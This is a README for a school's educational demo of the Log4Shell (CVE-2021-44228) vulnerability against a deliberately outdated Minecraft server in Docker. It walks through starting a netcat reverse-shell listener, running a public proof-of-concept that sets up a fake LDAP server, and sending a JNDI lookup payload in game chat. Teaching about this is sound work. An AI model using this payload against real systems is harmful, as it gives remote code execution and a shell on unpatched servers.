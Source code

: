 # Log4Shell (CVE-2021-44228) minecraft demo
This demo is used at education fairs to give potential future students an idea of the cybersecurity department at HTL Villach and on how everyday applications can be exploited

## Attacker
The attacker in this scenario is using the PoC by kozmer. https://github.com/kozmer/log4j-shell-poc
All credit belongs to them. 
**Note:** All commands need to be executed in attacker/

#### Requirements:
```bash
pip install -r requirements.txt
```
#### Usage:


* Start a netcat listener to accept reverse shell connection.<br>
```py
nc -lvnp 9001
```
* Launch the exploit.<br>
**Note:** For this to work, the extracted java archive has to be named: `jdk1.8.0_20`, and be in the same directory. 
```py
$ python3 poc.py --userip <ip of docker-host> --webport 8000 --lport 9001

[!] CVE: CVE-2021-44228
[!] Github repo: https://github.com/kozmer/log4j-shell-poc

[+] Exploit java class created success
[+] Setting up fake LDAP server

[+] Send me: ${jndi:ldap://<ip of docker-host>:1389/a}

Listening on 0.0.0.0:1389
```


This script will setup the HTTP server and the LDAP server for you, and it will also create the payload that you can use to paste into the vulnerable parameter. After this, if everything went well, you should get a shell on the lport.

<br>

## Victim
On the victim instance we are using an outdated and therefore [vulnerable version of JDK (jdk1.8.0_20) ](https://www.oracle.com/java/technologies/javase/javase8-archive-downloads.html).

#### Initial setup


To get our Minecraft server running we have to build our Docker image and run it.

**Note:** For a successful build you need to obtain your own copy of the Minecraft Vanilla 1.8.8 Server *(can't be shared because of Mojang's EULA)*
A possible source could be [MCVERSIONS.NET](https://mcversions.net/download/1.8.8)

After obtaining the file save it in victim/ as server.jar 

```docker
cd target/
docker build target/ -t minecraft-demo
```

#### Running the vulnerable server
Run the vulnerable Minecraft server we just built using docker
```
docker run --name vulnerable-server -p 25565:25565 minecraft-demo
```
It's likely that your container freezes or gets stuck after exploitation. In that case you can kill it using the following command:
```
docker kill vulnerable-server
```

#### Exploiting the server

To exploit the vulnerabilty simply send the string provided by the *poc.py* in the game chat.
```
${jndi:ldap://<ip of docker-host>:1389/a}
```